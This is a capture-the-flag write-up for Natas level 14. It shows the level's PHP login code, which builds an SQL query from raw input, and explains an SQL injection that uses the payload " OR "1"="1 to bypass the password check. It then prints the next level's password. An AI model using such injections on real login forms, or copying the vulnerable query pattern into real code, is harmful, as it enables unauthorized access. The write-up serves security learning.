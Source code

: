 # Writeup level 14
We have a login form as the start page with the input fields username and password.

**Source Code**

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

This looks like a simple **SQL-Injection**. We can see that the query is getting concatenated with our input. So we can easily inject our own SQL statement since there is nothing protecting it. Also we have a debug option which we can use to see how our query looks like.

**Exploit**  
In this case we can simply use **natas15** as the **username** and our password is going to be the injection point.  
By using: **" OR "1"="1**as the **password** we can turn the condition to true without knowing the password.  
Query that gets executed:  
```sql
SELECT * from users where username="natas15" and password="" OR "1"="1"
```

The password is:  
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

